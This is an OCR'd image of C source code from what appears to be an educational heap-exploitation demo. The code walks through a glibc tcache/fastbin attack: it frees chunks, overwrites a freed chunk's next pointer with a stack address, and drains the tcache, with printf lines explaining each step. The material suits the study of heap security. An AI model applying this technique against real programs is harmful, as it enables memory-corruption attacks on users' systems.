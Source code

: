 ```c
  printf(
    "The next pointer that we free is the chunk that we're going to corrupt: %p\n"
    "It doesn't matter if we corrupt it now or later. Because the tcache is\n"
    "already full, it will go in the fastbin.\n\n",
    victim
  );
  free(victim);

  printf(
    "Next we need to free between 1 and 6 more pointers. These will also go\n"
    "in the fastbin. If the stack address that we want to overwrite is not zero\n"
    "then we need to free exactly 6 more pointers, otherwise the attack will\n"
    "cause a segmentation fault. But if the value on the stack is zero then\n"
    "a single free is sufficient.\n\n"
  );

  // Fill the fastbin.
  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  // Create an array on the stack and initialize it with garbage.
  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  printf(
    "The stack address that we intend to target: %p\n"
    "It's current value is %p\n",
    &stack_var[2],
    (char*)stack_var[2]
  );

  printf(
    "Now we use a vulnerability such as a buffer overflow or a use-after-free\n"
    "to overwrite the next pointer at address %p\n\n",
    victim
  );

  //------------VULNERABILITY-----------

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

  //------------------------------------

  printf(
    "The next step is to malloc(allocsize) 7 times to empty the tcache.\n\n"
  );

  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "Let's just print the contents of our array on the stack now,\n"
    "to show that it hasn't been modified yet.\n\n"
  );

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

```